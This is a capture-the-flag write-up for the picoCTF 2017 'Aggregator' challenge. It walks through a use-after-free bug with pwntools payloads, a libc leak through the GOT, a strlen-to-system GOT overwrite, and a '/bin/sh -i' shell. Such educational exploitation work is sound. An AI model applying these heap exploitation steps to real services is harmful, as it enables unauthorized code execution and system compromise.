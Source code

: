# Level 4 - Aggregator

```
Aggregator
I wrote a program to help me synthesize my log files. You can edit the log files to add annotations that will print out aggregated information. Because the original program that outputs the logs was a bit faulty, I also included the ability to clear a single day of logs. 
Find my aggregator running on shell2017.picoctf.com:9611. aggregator.c aggregator

 HINTS
Does it look like there is a stack vulnerability?
```

This is a Use After Free vulnerability, It took a long time to find it :(

 Create an item on the heap
 Then free that item (memory is freed)
 Then create a new item on heap that isn't freed, by doing an invalid command
 Then trigger a Use After Free on that overwritten memory by doing an action

So we start by doing the allocating/freeing of a date entry, and then using an aggregate action
```python
  year  = 1022
  month = 1
  day   = 1
  date = "%2.2d-%2.2d-%4.4d" %(month,day,year)
  date_monthyear = "%2.2d-%4.4d" %(month,year)

  #Add date with easily findable item number 
  add_date_mdy(r, date, 0x4141414142424242)
  remove_date_mdy(r, date)

  #Overwrite the area that is now freed, with an invalid command
  payload  = ''
  payload += 'A'*(5*8)
  create_aggregate(r, '+', date_monthyear)
```

Looking at the relevant aggregation code:
```C
    while (ch != NULL) {
        if (ch->size > 0) {
            agg = ch->data[0];
            i = 1;
            break;
        }
        ch = ch->next;
    }
```

with the asm:
```asm
     0x400f87 <db_aggregate_month+101>    mov    rax, qword ptr [rax]
     0x400f8a <db_aggregate_month+104>    mov    qword ptr [rbp - 8], rax
     0x400f8e <db_aggregate_month+108>    mov    qword ptr [rbp - 0x10], 1
     0x400f96 <db_aggregate_month+116>    jmp    0x400fab                      <0x400fab>
     0x400f96 <db_aggregate_month+116>    jmp    0x400fab                      <0x400fab>
     0x400fab <db_aggregate_month+137>    jmp    0x400fff                      <0x400fff>
     0x400fff <db_aggregate_month+221>    cmp    qword ptr [rbp - 0x18], 0
```
where `[rbp - 0x18]` is the heap memory location of the invalid command we entered.

Keep stepping through:
```asm
     0x400fdd <db_aggregate_month+187>    mov    rax, qword ptr [rbp - 0x18]
     0x400fe1 <db_aggregate_month+191>    mov    rax, qword ptr [rax + 0x18]
     0x400fe5 <db_aggregate_month+195>    cmp    rax, qword ptr [rbp - 0x10]
     0x400fe9 <db_aggregate_month+199>    ja     db_aggregate_month+141        <0x400faf>
```
Here the pointer value to our invalid command is loaded into rax+0x18, and loaded back into RAX
If the value at that location is above 1 (`[rbp-0x10] = 0x1`), then jump.

So the C code is expecting this struct at this location:
```C
struct data_table_chain {
    data_t *data;
    day_t day;
    size_t capacity;
    size_t size;
    dbchain *next;
};
```
This is great, because it'll give us an arbitrary read primitive!

Modify our payload to:
```python
  payload  = ''
  payload += p64(0x601f58) # GOT address of setvbuf
  payload += p64(0x000000) 
  payload += p64(0x0000FF) # ch->capacity
  payload += p64(0x000001) # ch->size
  payload += p64(0x000000) # ch->next... just null is fine...
    
  r.sendline(payload)
```
So we set the data pointer we want to read to an address in the GOT that points to libc.
Then we read back the "aggregated" value. Which is just the address as an integer added to zero.

```python
  r.recvline()
  leak = r.recvline(keepends=False)
  libc.address = int(leak) - libc.symbols['setvbuf']
  print "Libc base = %x" %(libc.address)
  print "Libc system() = %x" %(libc.symbols['system'])
```
Score... We're making progress.

Now how do we find an arbitrary write primitive...
Lets see about doing the same trick with an update to an existing item?
Start simple and see if we can get a crash
```python
  year  = 1022
  month = 12
  day   = 12
  date = "%2.2d-%2.2d-%4.4d" %(month,day,year)
  date_monthyear = "%2.2d-%4.4d" %(month,year)

  #Add date with easily findable item number 
  add_date_mdy(r, date, 0x4141414142424242)
  remove_date_mdy(r, date)

  #Overwrite the area that is now freed, with an invalid command
  payload  = ''
  payload += p64(0x601f58) # GOT address of ...
  payload += p64(0xAAAAAA)
  payload += p64(0xBBBBBB)
  payload += p64(0xCCCCCC) 
  payload += p64(0xDDDDDD) 
  r.sendline(payload)

  add_date_mdy(r, date, 0x4141414142424242)
```
Great. This gets a segfault at `chain_get+47`. it uses the 0xDDDDDD+0x8 as a pointer. This makes sense, we saw that was the next pointer. So lets zero that one.
Lets also set that location as a breakpoint:
```python
  if args.dbg:
    gdb.attach(r, """
    vmmap
    b *chain_get+47
    """)
```

Now we look to see what's happening around the `db_add()` calling `chain_get()`
```C
void db_add(db_t D, struct tm* when, data_t data_value) {
    ymon_t ymon = make_ymon(when->tm_year, when->tm_mon);
    day_t day = when->tm_mday;
    dbchain *ch = chain_get(D, ymon, day);
    if (ch == NULL) {
        ch = chain_add(D, ymon, day);
    }
    chain_append(ch, data_value);
}
```

`chain_add()` is a complicated function with lots of stuff in it. `chain_append()` seems more manageable

```C
void chain_append(dbchain *ch, data_t data_value) {
    if (ch->size == ch->capacity) {
        ch->capacity = ch->capacity * 2;
        ch->data = xrealloc(ch->data, ch->capacity * sizeof(data_t));
    }
    ch->data[ch->size] = data_value;
    ch->size++;
}
```

Nice... So we just need a valid pointer for `chain_get()` to return a pointer to our structure. mmmm
```C
dbchain *chain_get(db_t D, ymon_t y, day_t day) {
    dbchain *ch = chain_head(D, y);
    while (ch != NULL) {
        if (ch->day == day) {
            return ch;
        }
        ch = ch->next;
    }
    return NULL;
}
```

In `chain_get()` make sure we follow the right code path. This got me for a bit:
```asm
   0x400b15 <chain_get+47>    movzx  eax, byte ptr [rax + 8]
   0x400b19 <chain_get+51>    cmp    al, byte ptr [rbp - 0x20]
   0x400b1c <chain_get+54>    jne    chain_get+62                  <0x400b24>
```
I need to make sure that the second value in our struct is equal to the value of the day we used.
Since we saw that `ch->data[ch->size] = data_value;` we need to make sure to subtract the location we want to write to with 8.

Now we just need to figure out what to overwrite. I usually look at what the input buffer pointer is passed to, if we want to use `system()` then we need it to be passed as the first argument somewhere:

Ah HA: right in `main()` the pointer with user input is passed to `strlen()`
```C
    for (char *line_buffer = readline(); line_buffer != NULL; line_buffer = readline()) {
        size_t line_length = strlen(line_buffer);
```
So we need to overwrite `strlen()` in the GOT: `0x601f00 (strlen@got.plt) —> 0x4007d6 (strlen@plt+6)`

So lets try:
```python
  #Overwrite the area that is now freed, with an invalid command
  payload  = ''
  payload += p64(0x601f00-8) # GOT address of strlen - 8
  payload += p64(0x0000000C) # This holds the day we used above
  payload += p64(0xFFFFFFFF) 
  payload += p64(0x00000001) # ch->size
  payload += p64(0x00000000) #

  r.sendline(payload)
 
  #Send value to overwrite the data pointer with
  add_date_mdy(r, date, libc.symbols['system'])
 
  r.sendline('/bin/sh -i') 
  # Drop to interactive console
  r.interactive()
```

And we have a shell :)

I had a fairly hard time spoting the UAF bug and didn't solve it in time to claim the 190 points.

Full [exploit](./exploit.py) is checked in 











